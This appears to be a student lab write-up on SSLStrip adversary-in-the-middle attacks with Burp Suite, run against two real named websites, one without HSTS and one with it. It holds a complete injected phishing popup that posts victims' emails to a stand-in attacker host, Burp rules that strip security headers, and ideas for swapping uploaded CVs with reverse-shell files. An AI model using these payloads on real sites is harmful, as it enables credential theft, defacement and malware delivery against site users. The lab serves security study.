

# LAB 06_AitM
---
## Case A: beavestudio.com (No Strict Transport Security)

For this experiment, I analyzed the corporate website of `beavestudio.com`. The goal is to perform an SSLStrip attack, downgrading the victim's connection from HTTPS to HTTP, allowing us to intercept and modify traffic.

### 1. Target Analysis
First, I analyzed the domain using `curl` to check for security headers, specifically HSTS (HTTP Strict Transport Security).

**Input:**
```bash
curl -I http://beavestudio.com
```

**Output:**
```bash
HTTP/1.1 301 Moved Permanently
Connection: Keep-Alive
Keep-Alive: timeout=5, max=100
Date: Sun, 18 Jan 2026 10:17:34 GMT
Server: LiteSpeed
Location: https://beavestudio.com/
platform: hostinger
panel: hpanel
Content-Security-Policy: upgrade-insecure-requests
```

I repeated the analysis with HTTPS to see the final response headers:
**Output:**
```bash
HTTP/2 200 
x-powered-by: PHP/8.2.29
content-type: text/html; charset=UTF-8
link: <https://beavestudio.com/wp-json/>; rel="https://api.w.org/"
link: <https://beavestudio.com/wp-json/wp/v2/pages/4504>; rel="alternate"; title="JSON"; type="application/json"
link: <https://beavestudio.com/>; rel=shortlink
date: Sun, 18 Jan 2026 10:16:50 GMT
server: LiteSpeed
platform: hostinger
panel: hpanel
retry-after: 60
content-security-policy: upgrade-insecure-requests
alt-svc: h3=":443"; ma=2592000, h3-29=":443"; ma=2592000, h3-Q050=":443"; ma=2592000, h3-Q046=":443"; ma=2592000, h3-Q043=":443"; ma=2592000, quic=":443"; ma=2592000; v="43,46"
```

**Observation:**
As seen in the output, while the website supports HTTPS (and redirects HTTP to HTTPS), it **does not send the `Strict-Transport-Security` (HSTS) header**. This absence allows an attacker to intercept the initial HTTP request and prevent the upgrade to HTTPS, keeping the victim on an unencrypted HTTP connection.

---

### 2. Burp Suite Configuration for SSLStrip

To enable the AitM attack, I configured the Burp Proxy listener to **Force use of TLS** (bridging the HTTP client to the HTTPS server) and enabled **"Convert HTTPS links to HTTP"** and **"Remove Secure flag from cookies"**.

Additionally, I set up **Match and Replace** rules to strip security headers that would block the attack:
*   **Remove `Strict-Transport-Security` (HSTS)**: Prevents the browser from forcing HTTPS.
*   **Remove `Content-Security-Policy` (CSP)**: Allows the injection of external scripts and styles.

---

### 3. Attack Scenarios & Impact

#### Scenario A: Defacement (Response Modification)
**Objective:** Damage the company's reputation by altering visible content.

I created a rule to modify the "Customer Satisfaction" percentage on the homepage.
*   **Rule Type:** Response body
*   **Match:** `100%`
*   **Replace:** `13%`

**Result:**
The user sees a drastically lower satisfaction rate, potentially losing trust in the business.




#### Scenario B: Social Engineering & Data Exfiltration (Injection)
**Objective:** Inject malicious code to harvest credentials (e.g., email addresses).

I injected a "promo" popup that appears when the page loads. This overlay blocks the main content and tricks users into entering their email address.

**Burp Rule:**
*   **Type:** Response body
*   **Match:** `</body>`
*   **Replace:** (Appended the following HTML/JS payload)

```html
<style> 
    #promo-overlay { position: fixed; top:0; left:0; width:100%; height:100%; background:rgba(0,0,0,0.6); display:flex; justify-content:center; align-items:center; z-index:9999; } 
    #promo-popup { background:#fff; padding:30px 20px; border-radius:10px; max-width:400px; width:90%; text-align:center; font-family:Arial,sans-serif; box-shadow:0 4px 15px rgba(0,0,0,0.3); position:relative; } 
    #promo-popup .close-btn { position:absolute; top:10px; right:15px; font-size:18px; cursor:pointer; } 
    #promo-popup input[type="email"] { width:80%; padding:10px; margin:15px 0; border:1px solid #ccc; border-radius:5px; } 
    #promo-popup button { padding:10px 20px; background:#ff5722; color:#fff; border:none; border-radius:5px; cursor:pointer; } 
    #promo-popup button:hover { background:#e64a19; } 
</style> 
<div id="promo-overlay">     
    <div id="promo-popup">         
        <span class="close-btn">&times;</span>         
        <h2>You are the 10,000th Visitor!</h2>         
        <p>Enter your email to receive an exclusive offer:</p>         
        <input type="email" id="promo-email" placeholder="Your email"><br>         
        <button id="promo-submit">Claim Offer</button>     
    </div> 
</div> 
<script>
document.getElementById('promo-submit').addEventListener('click', () => {
    const email = document.getElementById('promo-email').value.trim();
    if (email === '') {
        alert('Please enter a valid email.');
        return;
    }
    // Exfiltration to attacker's server
    fetch('http://attacker-site.com/collect', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ email: email, source: 'promo-popup', timestamp: new Date().toISOString() })
    })
    .then(() => {
        alert('Thank you! Your email has been sent.');
        document.getElementById('promo-overlay').style.display = 'none';
    })
    .catch(() => {
        // Even if it fails (e.g. CORS), the user thinks it worked
        alert('Thank you! Your email has been sent.'); 
        document.getElementById('promo-overlay').style.display = 'none';
    });
});
</script> 
```
*(Note: The payload is inserted before the closing body tag to ensure the DOM is loaded)*

**Result:**


#### Other Concrete Attack Vectors
Given that the target website is a marketing agency with contact forms and CV upload capabilities (no user login), the following AitM attacks are highly relevant:

1.  **Contact Form Tampering (Request Modification)**: Intercepting the `POST` request when a user submits the "Contact Us" form.

2.  **CV Upload Interception & Replacement (Malware Delivery): Intercepting the file upload traffic when a candidate submits their CV.
The impact is enteresting:
    - Privacy Violation: Stealing personal data from the CV (GDPR breach).
    - Network Compromise: Replacing the legitimate PDF/Word document with a malicious file containing a reverse shell or exploit. When the HR department opens the "CV", their internal network is compromised.

3.  **Targeted Phishing (Advanced Social Engineering)**: Injecting a realistic popup mimicking a "Technical Support" chat or a "Security Alert".
    - Impact: Tricking users into contacting a fake support center (`support@attacker-domain.com`) to divert legitimate business leads or harvest sensitive information under false pretenses.

---
## Case B: unicef.it (Strict Transport Security)


For this experiment, I chose **unicef.it**, a site known to enforce Strict Transport Security.

First, I verified the HSTS status using `curl`:

**Input:**
```bash
curl -I http://www.unicef.it
```

**Output:**
```bash
HTTP/1.1 301 Moved Permanently
Content-Type: text/plain; charset=utf-8
Date: Sun, 18 Jan 2026 15:44:06 GMT
Location: https://www.unicef.it/
Server: Netlify
X-Nf-Request-Id: 01KF8WE82DJAW5NEW5436AAH8D
```
**Input:**
```bash
curl -I https://www.unicef.it
```

**Output:**
```bash
HTTP/2 200 
accept-ranges: bytes
access-control-allow-headers: *
access-control-allow-origin: *
age: 9378
cache-control: public,max-age=0,must-revalidate
cache-status: "Netlify Edge"; hit
content-type: text/html; charset=UTF-8
date: Sun, 18 Jan 2026 15:36:52 GMT
etag: "64421fd4be2055b2297e456096fc4595-ssl"
referrer-policy: strict-origin
server: Netlify
strict-transport-security: max-age=31536000
x-nf-request-id: 01KF8W0ZYAEKDTDRMNVE31AF00
content-length: 592009
```

After clearing the HSTS cache and configuring the browser to use Burp as a proxy, the website `http://www.unicef.it` was accessed over HTTP. The page was successfully loaded and the browser explicitly indicated that the connection was not secure (“Not secure”), confirming that the domain is not in the HSTS preload list and that the “before first visit” window exists. At this stage, Burp was able to observe and intercept HTTP traffic in clear text.

When request interception was enabled in Burp and navigation to another page of the same site was attempted, the browser displayed the warning:

> “This site doesn’t support a secure connection. Attackers can see and change information that you send or receive from the site ...”


This behavior shows that the connection was still using HTTP and that no transport-level security was being applied. The warning emphasizes the vulnerability of the communication channel, where an attacker in a Man-in-the-Middle position can read and modify the exchanged data.

These observations confirm that, before receiving and enforcing the HSTS policy, the browser allows insecure HTTP connections and is therefore vulnerable to SSL stripping and content manipulation attacks. This phase represents the “before first visit” vulnerability window that HSTS is designed to eliminate once a secure HTTPS connection has been established.

I used a code similar to the one provided in the previous website (case A) `beavestudio.it` website. The popup was successfully displayed.


